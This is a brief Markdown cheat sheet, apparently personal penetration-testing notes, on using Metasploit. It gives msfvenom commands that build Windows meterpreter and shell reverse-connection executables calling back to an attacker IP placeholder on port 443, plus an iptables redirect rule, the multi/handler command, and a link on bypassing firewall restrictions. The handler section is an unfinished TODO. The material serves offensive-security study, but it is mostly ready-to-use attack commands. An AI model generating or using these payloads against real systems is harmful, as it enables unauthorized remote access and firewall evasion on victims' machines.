 # Metasploit

## 01 - MSFVenom

```
$ msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe

$ msfvenom -p windows/shell/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe

$ sudo iptables -A PREROUTING -t nat -p tcp --dport 443:5556 -j REDIRECT --to-port 443
```

## 02 - Shell Handler

TODO: Fill this info

```
msf > use exploit/multi/handler
```

---
## References

- [Bypass Firewall Restrictions Metasploit reverse_tcp_allports](https://www.hackingarticles.in/bypass-firewall-restrictions-metasploit-reverse_tcp_allports/)